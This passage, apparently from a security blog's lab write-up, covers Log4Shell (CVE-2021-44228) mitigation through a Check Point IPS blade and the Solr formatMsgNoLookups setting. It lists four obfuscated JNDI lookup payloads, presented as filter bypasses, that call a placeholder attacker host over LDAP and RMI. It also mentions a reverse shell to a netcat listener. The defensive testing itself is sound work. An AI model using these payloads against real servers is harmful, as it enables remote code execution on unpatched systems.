 [log4shell-detecting-log4j-vulnerability-cve-2021-44228-continued](https://www.splunk.com/en_us/blog/security/log4shell-detecting-log4j-vulnerability-cve-2021-44228-continued.html){:target="_blank" rel="noopener"}

## Mitigation and Prevention:
### IPS Blade in Checkpoint Firewall:
- To mitigate and prevent log4j vulnerability we can make use of IPS blade in checkpoint firewall.
- I enabled IPS blade with strict profile policies.
- Let’s preform the attack and see if the IPS can prevent this attack.
![13](../assets/img/Log4Shell/09.png)
- I got failure: Connection reset by peer, by checking the logs on the Firewall we can see that it prevented.
![14](../assets/img/Log4Shell/010.png)
- With that in mind, there are honestly an unlimited number of bypasses to sneak in this syntax. 
There are numerous resources online that showcase some examples of these bypasses, with a few offered below:
```bash
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/}
```
- will be testing these bypass techniques and see if we can prevent them by using an IPS blade.

- You should see connection rest by peer message and no request is made to your temporary LDAP server, consequently no request is made to your HTTP server, and... no reverse shell is sent back to your netcat listener!

![15](../assets/img/Log4Shell/011.png)
![16](../assets/img/Log4Shell/012.png)

For other techniques, you are strongly encouraged t do your own research. There is a significant amount of information being shared in this [Reddit](https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/){:target="_blank" rel="noopener"}.

### Modify the solr.in.sh file (for solr only):
- One other option is to manually modify the solr.in.sh file with a specific syntax. Let's go down that route for the sake of showcasing this defensive tactic.
- Determine where the solr.in.sh file exists on the machine's filesystem. You can do this rapidly with the following command:
```bash
locate solr.in.sh
```
![17](../assets/img/Log4Shell/013.png)
- The Apache Solr website Security page explains that you can add this specific syntax to the solr.in.sh file:
```bash
SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"
```
- You can do this rapidly with the following command:
```bash
echo 'SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"' >> /etc/default/solr.in.sh
```
![18](../assets/img/Log4Shell/014.png)
- Now that the configuration file has been modified, the service still needs to be restarted for the changed to take effect.
- This process may vary between installations, but for this server, you can restart the service with this syntax:
```bash
sudo /etc/init.d/solr restart
```
- To validate that the patch has taken place, Let’s perform the attack again.